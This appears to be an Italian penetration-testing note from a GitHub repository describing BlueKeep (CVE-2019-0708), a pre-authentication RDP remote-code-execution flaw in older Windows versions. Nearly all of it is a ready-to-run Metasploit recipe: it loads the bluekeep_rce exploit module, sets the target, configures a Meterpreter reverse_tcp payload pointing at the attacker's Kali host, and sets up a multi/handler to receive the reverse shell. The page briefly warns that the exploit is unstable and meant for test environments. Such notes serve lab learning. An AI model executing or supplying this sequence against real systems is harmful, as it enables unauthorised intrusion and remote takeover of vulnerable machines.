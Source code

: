<a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## cve_2019_0708 BlueKeep
**BlueKeep** è una vulnerabilità critica che permette RCE senza autenticazione sfruttando un buffer overflow nel servizio RDP. Colpisce Windows XP, Server 2003, Windows 7 e Server 2008.

---

## Fase 6 – Exploiting di BlueKeep con Metasploit

Modulo di exploit:
`use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`  
`set RHOSTS <IP>`  
`set RPORT 3389`  
`set payload windows/x64/meterpreter/reverse_tcp`  
`set LHOST <KaliIP>`  
`set LPORT <Port>`  
`run`

⚠️ Estremamente instabile: usare solo in ambienti di test.

Per ricevere la reverse shell:
`use multi/handler`  
`set payload windows/x64/meterpreter/reverse_tcp`  
`set LHOST <KaliIP>`  
`set LPORT <Port>`  
`run`

---
